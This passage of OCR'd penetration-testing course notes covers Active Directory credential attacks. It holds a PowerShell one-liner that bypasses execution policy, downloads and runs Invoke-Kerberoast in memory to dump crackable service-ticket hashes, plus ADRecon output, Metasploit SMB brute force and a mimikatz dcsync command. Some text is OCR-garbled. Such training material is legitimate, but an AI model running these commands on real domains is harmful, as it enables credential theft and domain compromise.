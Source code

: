 To reiterate, any domain user account that has an SPN set can have a TGS for that SPN requested by any user in the domain, allowing for the offline cracking of the service account plaintext password! This is obviously dependent on a crackable service account plaintext, but service accounts luckily tend to often have simple passwords that change very infrequently.

## Kerberoasting via PowerShell  
- Empire has been deprecated but continues to be available ... so far!
- The following command works on older boxes:
  - RC4
  ```powershell
  powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).Down loadString('https://raw.gi thubusercontent.com/Empire Project/Empire/master/data /module_source/credentials /Invoke-Kerberoast.ps1') ; Invoke-Kerberoast - OutputFormat HashCat|Select-Object - ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
  ```
This one-liner instructs PowerShell to relaunch, but this time, set the ExecutionPolicy to bypass. This enables untrusted scripts to be run.

The `“New-Object System.Net.WebClient).DownloadString”` is used to download the `Invoke-Kerberoast.ps1` script from the defined location, after which the script is loaded into memory.

The final section `Invoke-Kerberoast -OutputFormat HashCat | Select-Object - ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt` runs the Kerberoast request, after which it details how the results should be returned. 

In the above example, they are set to match hashcat’s password cracking tools file format requirements, followed by the defined name and file type. 

Summarizing, it downloads the script, runs it all in RAM, and outputs the results ready to crack using hashcat. 

After running the one-liner, no response should appear.

## ADRecon — Kerberoast  
Has a Kerberroast module
```powershell
PS C:\Users\Administrator\Desktop> .\ADRecon.ps1 -Collect Kerberoast

[-] Kerberoast
Username ServicePrincipalName  John
-------- --------------------  ----
user     http/blah.sos.labs:80 $krP5tgsah.sos.1abs:80:2D3F45B329C2C2
user     http/DC1.sos.labs:80  $krP5tgsah.sos.1abs:80:2D3F45B329C2C2

[*] Total Execution Time (mins): 0.00
```

## Brute Force AD  
- Dangerous due to lockout policies Use discretion
- `msf > use auxiliary/scanner/smb/smb_login`
- All hashes are stored in a file named “NTDS.dit” in this location.
  - C:\Windows\NTDS
- Use mimikatz
  - mimikatz # lsadump::dcsync /domain:cpent.local /all /csv
 
## LAB Active Directory
## Module Summary
